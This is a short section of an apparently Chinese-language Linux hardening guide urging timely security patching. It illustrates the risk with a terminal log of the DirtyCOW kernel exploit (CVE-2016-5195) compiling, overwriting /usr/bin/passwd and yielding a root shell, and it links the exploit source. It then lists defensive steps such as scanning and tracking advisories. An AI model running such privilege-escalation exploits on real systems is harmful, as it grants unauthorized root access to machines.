 ## 升级安全补丁
及时更新操作系统内核和软件版本，解决已披露的安全漏洞，降低系统被攻击的风险。
![Vulnerabilities by year](images/vulnerabilities_by_year.png)
### 安全漏洞利用示例
![DirtyCOW](images/dirty-cow.gif)
<br>
DirtyCOW 内核提权漏洞(CVE-2016-5195)
<br>
普通用户利用该漏洞提权到root用户:
```
fjl@SLES11-3:~> gcc -lpthread cve_2016_5195_exp.c -o cve_2016_5195_exp
fjl@SLES11-3:~>
fjl@SLES11-3:~> id
uid=1000(fjl) gid=100(users) groups=100(users),16(dialout),33(video)
fjl@SLES11-3:~> whoami
fjl
fjl@SLES11-3:~> 
fjl@SLES11-3:~> ./cve_2016_5195_exp
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 81856
Racing, this may take a while..
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
thread stopped
thread stopped
SLES11-3:/home/fjl # id
uid=0(root) gid=100(users) groups=0(root),16(dialout),33(video),100(users)
SLES11-3:/home/fjl # whoami
root
SLES11-3:/home/fjl #
```
![DirtyCOW-CVE-2016-5195-EXP](images/DirtyCOW-CVE-2016-5195-EXP.gif)
<br>
EXP源码: [cve_2016_5195_exp.c](cve_2016_5195_exp.c)
### 如何实施
* 定期进行安全扫描(Nessus等)，解决安全扫描漏洞;
* 订阅操作系统厂商公告，关注安全补丁发布情况，及时升级安全补丁;
* 关注安全漏洞披露平台，如[CVE](http://www.cvedetails.com/index.php)、[NVD](https://nvd.nist.gov/vuln/full-listing)、[expolit-db](https://www.exploit-db.com/browse/)、[SecurityFocus](http://www.securityfocus.com/vulnerabilities)，跟踪并及时解决安全漏洞。
